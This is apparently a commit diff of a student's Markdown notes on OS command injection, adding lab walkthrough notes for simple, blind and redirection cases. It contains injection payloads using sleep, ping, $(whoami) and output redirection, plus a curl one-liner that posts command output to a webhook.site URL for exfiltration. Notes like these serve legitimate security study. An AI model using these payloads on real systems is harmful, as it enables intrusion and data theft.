

Before and after one commit to CoderZonora/Cryptonite_Web, a Markdown page: Command injection/command_report.md, the part around the change. Shown: that part at 83% size. GitHub-like rendering; pictures changed too: Command injection/webhook.png (added); blank space fills up the shorter version.

Commit message:
Added further notes

````diff
--- a/Command injection/command_report.md
+++ b/Command injection/command_report.md
@@ -17,12 +17,39 @@ Try chaining commmands using shell meta characters.
 
 if going in blind methods you can look into are:
 Using ``` <safe_input> && sleep 10 & ``` (Only for linux) command or ```<safe_input> && ping -c 10 127.0.0.1 & ```(Inter OS) and see if output adheres to the time delay.
-If it does you can then try to use other methods to exfiltrate more data like try to run `whoami` and rediect the output.
+If it does you can then try to use other methods to exfiltrate more data like try to run `whoami`(not preffered way as chaining difficult) or $(whoami) and rediect the output.
 Placing the additional command separator & after the injected command is useful because it separates the injected command from whatever follows the injection point.
 This reduces the chance that what follows will prevent the injected command from executing.
 
-![redirection[(redirection.png)
+![redirection](redirection.png)
 
 https://www.makeuseof.com/what-are-linux-metacharacters/
 https://www.bogotobogo.com/Linux/linux_shell_programming_tutorial7_metacharacters_quotes.php
 https://github.com/payloadbox/command-injection-payload-list
+
+
+<h1>Lab1 Simple Case</h1>
+Directly executed using eval and the entire raw output is displayed back.
+Can just chain commmand we want to run using shell meta characters and end with '#'(for BASH) to prevent
+interference with remaining part of the script running the commands. With this we can run anything as we can get path names,file names anything as output displayed.
+
+Script Note:
+Try to output useful error messages if script fails for some reason.
+
+<h1>Lab2 Simple Blind</h1>
+Just used sleep on different parameters you control to check which one delays response and that is then confirmed to be vulnerable.
+
+Script Note:
+Check for auth tokens and get them before sending actual request.
+Can set proxy to BURP interceptor ~~so that can record the responses and know if it worked or not~~ or just print the response text in the script.
+
+
+<h1>Lab3&4&5 Blind Redirection</h1>
+If need output of a command and its blind injection:
+1. Find vulnerable parameter
+2. a) Try to find a writeable place where you can create a file and can also access that file using some other request.
+2. b) Perform the injection and redirect output using '>'(Will create file or overwrite if already exists) or '>>'(Will create file or append to if already exists).
+3. If cannot write use webhook.site . Ways to do : https://medium.com/@excybex/this-blog-explores-the-potential-misuse-of-webhook-site-89baecd7704b.
+Eg: ```dir=$(ls); curl -s -X POST https://webhook.site/f3082654-6152-471b-b960-48dfd6fce02f --data-raw $dir```
+
+![Webhook example](webhook.png)
````
